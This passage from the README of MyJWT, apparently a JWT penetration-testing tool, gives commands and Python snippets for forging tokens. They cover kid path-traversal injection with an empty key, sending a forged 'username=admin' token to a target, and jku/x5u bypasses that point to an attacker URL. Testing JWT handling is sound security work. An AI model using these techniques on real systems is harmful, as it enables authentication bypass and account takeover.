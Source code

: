 ```
from myjwt.utils import jwt_to_json
from myjwt.vulnerabilities import inject_sql_kid

injection = "../../../../../../dev/null"
sign = ""
jwt = inject_sql_kid(jwt, injection)
jwt = signature(jwt_to_json(jwt), sign)
```
Full example here: [06-kid-injection](https://github.com/mBouamama/MyJWT/blob/master/examples/06-kid-injection/kid-injection.py)

## Send your new Jwt to url

### CLI
```
myjwt YOUR_JWT -u YOUR_URL -c "jwt=MY_JWT" --non-vulnerability --add-payload "username=admin"
```

## Jku Vulnerability
### CLI
```
myjwt YOUR_JWT --jku YOUR_URL
```
### Code
```
from myjwt.vulnerabilities import jku_vulnerability
new_jwt = jku_vulnerability(jwt=jwt, url="MYPUBLIC_IP")
print(jwt)
```
Full example here: [07-jku-bypass](https://github.com/mBouamama/MyJWT/blob/master/examples/07-jku-bypass/jku-bypass.py)
## X5U Vulnerability
### CLI
```
myjwt YOUR_JWT --x5u YOUR_URL
```
### Code
```
from myjwt.vulnerabilities import x5u_vulnerability
newJwt = x5u_vulnerability(jwt=jwt, url="MYPUBLIC_IP")
print(jwt)
```
Full example here: [08-x5u-bypass](https://github.com/mBouamama/MyJWT/blob/master/examples/08-x5u-bypass/x5u-bypass.py)

# Download
Check github releases. Latest is available at https://github.com/mBouamama/MyJWT/releases/latest
# Contribute
- Fork this repository or clone it
- Create a new branch (feature, hotfix, etc...)
- Make necessary changes and commit those changes
- Check lint with `make flake8`
- Check unit_test with `make test`
- Send Pull Request
I will check as Soon as Possible.
